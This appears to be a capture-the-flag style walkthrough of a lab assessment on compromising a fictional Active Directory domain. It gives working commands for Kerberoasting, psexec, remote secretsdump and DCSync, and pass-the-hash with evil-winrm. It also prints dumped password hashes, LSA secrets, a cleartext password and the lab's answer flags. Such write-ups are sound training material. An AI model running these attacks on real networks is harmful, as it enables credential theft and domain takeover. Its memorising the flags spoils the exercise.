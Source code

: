 # AD Enumeration & Attacks - Skills Assessment Part I

### Scenario

A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

Apply what you learned in this module to compromise the domain and answer the questions below to complete part I of the skills assessment.

### Questions

**Submit the contents of the flag.txt file on the administrator Desktop of the web server**

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption><p>got a revshell and obtained the flag.</p></figcaption></figure>

**Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>svc_sql</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

**Crack the account's password. Submit the cleartext value.**

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>lucky7</p></figcaption></figure>

**Submit the contents of the flag.txt file on the Administrator desktop on MS01**

we have to know what IP does MS01 has&#x20;

```
Resolve-IPAddress -ComputerName MS01
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption><p>172.16.6.50</p></figcaption></figure>

When SMB scan was performed, there were ADMIN$ and C$ shares, which were read and writable.

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption><p>Admin share writable</p></figcaption></figure>

Next logical step is to run impacket-psexec to gain a shell using this credential.

```
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> systeminfo
 
Host Name:                 MS01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA100
Original Install Date:     3/30/2022, 3:56:23 AM
System Boot Time:          7/5/2023, 10:04:57 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-06:00) Central Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,198 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 4,000 MB
Virtual Memory: In Use:    799 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    INLANEFREIGHT.LOCAL
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB5009472
                           [02]: KB4535680
                           [03]: KB4589208
                           [04]: KB5010427
                           [05]: KB5009642
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.6.50
                                 [02]: fe80::fc35:9ed3:e474:d620
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

C:\Windows\system32> 

```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption><p>spn$<em>r0ast1ng_on</em>@n_0p3n_f1re</p></figcaption></figure>

Note that RDP is also available for this host.

**Find cleartext credentials for another domain user. Submit the username as your answer.**

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption><p>nothing useful</p></figcaption></figure>

```
proxychains impacket-secretsdump INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50 -outputfile inlanefreight_hashes 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9521a9e7c65245ab8cdd792e7f6d20df
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/tpetty:$DCC2$10240#tpetty#685decd67a67f5b6e45a182ed076d801
INLANEFREIGHT.LOCAL/svc_sql:$DCC2$10240#svc_sql#acc5441d637ce6aabf3a3d9d4f8137fb
INLANEFREIGHT.LOCAL/Administrator:$DCC2$10240#Administrator#9553faad97c2767127df83980f3ac245
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
INLANEFREIGHT\MS01$:aes256-cts-hmac-sha1-96:7ec92cbf5c0978d63da9ca099e9e15131fa9f8f83f6e0c850dc27fbf5bd3c294
INLANEFREIGHT\MS01$:aes128-cts-hmac-sha1-96:34eddfc4c6391fe4fcea4cd8e6f000aa
INLANEFREIGHT\MS01$:des-cbc-md5:1a2c5df13885f80b
INLANEFREIGHT\MS01$:plain_password_hex:19e615bcf39b1aa4ee984e52f1d993a21c6943bd6d90ca901ff0a676620f637ee41049607477f7560972a707da615942143dd3ec94e50b4a73d1539f51e312b591594d5b365a52d56cfc4cc2bbe4cd5014165fd6e9ba47530321d9361e63a6de7400435ab03b6c15e45f222bb511637855b14f7807cd3b29622540ffadf25300326fea2d197d42dd0e70eb082147e355596f39ee809ce68092d89e56f6427824d436b3a932da26f4bfcf7cf0ec8024e222af81521df95eeca49d8a9260baafc27725e940c28299dfa54a6e997aa673d77f00d0bdf7a389aaf4cf0037f6c9d8165b6b185ec135b59eda45b74170a91ec6
INLANEFREIGHT\MS01$:aad3b435b51404eeaad3b435b51404ee:e97a877bf59d4102321bded442896bee:::
[*] DefaultPassword 
INLANEFREIGHT\tpetty:Sup3rS3cur3D0m@inU2eR
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x8dbe842a7352000be08ef80e32bb35609e7d1786
dpapi_userkey:0xb20d199f3d953f7977a6363a69a9fe21d97ecd19
[*] NL$KM 
 0000   A2 52 9D 31 0B B7 1C 75  45 D6 4B 76 41 2D D3 21   .R.1...uE.KvA-.!
 0010   C6 5C DD 04 24 D3 07 FF  CA 5C F4 E5 A0 38 94 14   .\..$....\...8..
 0020   91 64 FA C7 91 D2 0E 02  7A D6 52 53 B4 F4 A9 6F   .d......z.RS...o
 0030   58 CA 76 00 DD 39 01 7D  C5 F7 8F 4B AB 1E DC 63   X.v..9.}...K...c
NL$KM:a2529d310bb71c7545d64b76412dd321c65cdd0424d307ffca5cf4e5a03894149164fac791d20e027ad65253b4f4a96f58ca7600dd39017dc5f78f4bab1edc63
[*] Cleaning up... 
[*] Stopping service RemoteRegistry

```

```
tpetty:Sup3rS3cur3D0m@inU2eR
```

**Submit this user's cleartext password.**

```
Sup3rS3cur3D0m@inU2eR
```

**What attack can this user perform?**

```
$sid = Convert-NameToSid tpetty
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption><p>DS-Replication-Get-Changes-All</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption><p>DS-Replication-Get-Changes-In-Filtered-Set</p></figcaption></figure>



DCSync

**Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

First we have to know what IP is the DC by using the following command.

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>172.16.6.3</p></figcaption></figure>

```
proxychains impacket-secretsdump -just-dc INLANEFREIGHT/tpetty:'Sup3rS3cur3D0m@inU2eR'@172.16.6.3 -outputfile ilf_dcsync
```

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

We got the administrator hash, I tried to crack it but doesn't seems to work the next step will be pass the hash attack because of the dcsync command seems to be going on forever with more than thousand people already.

`27dedb1dab4d8545c6e1c66fba077da0`

xfreerdp didn't work but evil-winrm did

```
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption><p>r3plicat1on_m@st3r!</p></figcaption></figure>
